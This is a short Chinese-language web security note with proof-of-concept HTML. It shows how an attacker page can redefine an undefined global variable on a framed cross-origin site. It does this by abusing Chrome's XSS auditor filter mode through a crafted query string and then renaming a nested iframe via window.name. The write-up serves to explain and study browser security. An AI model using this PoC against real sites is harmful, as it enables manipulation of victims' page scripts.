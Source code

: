 此时 B.com/B.html 存在一个未定义的全局变量 (可以是利用chrome的xss auditor的filter模式产生的)，怎么利用？场景用代码描述如下：


```html
<!-- A.com/A.html -->
<iframe  src="http://B.com/B.html" ></iframe>
```

```html
<!-- B.com/B.html -->
<iframe  src="http://C.com/C.html" ></iframe>
<h1 onclick="test()">click me</h1>
<script>
     VUL = "Hijack me";
</script>

<script>

    function test(){
        // 不能用alert ，alert 会尝试访问 VUL window对象的所有属性，会爆跨域错误
        console.log(VUL);
    }
</script>
```

利用的poc如下,修改A.html如下：

```html
<script>
    function loaded(x){
        x.contentWindow.frames[0].location = "http://A.com/index.html"; // 修改为跟A.com同源，这样在修改此iframe的name的时候就不会被同源策略block
        setTimeout(function() {
            console.log('setting viewer...');
            x.contentWindow.frames[0].name = "VUL"; // 重新定义全局变量
        },1000*1);
    }
</script>

<!--  
    http://B.com/B.html?xss=%3Cscript%3E%0A%20%20%20%20%20VUL%20=%20%22Hijack%20me%22;%0A%3C/script%3E
    利用chrome的filter模式去掉 VUL 的定义 
-->

<iframe  src="http://B.com/B.html?xss=%3Cscript%3E%0A%20%20%20%20%20VUL%20=%20%22Hijack%20me%22;%0A%3C/script%3E" onload="loaded(this)"></iframe>

```

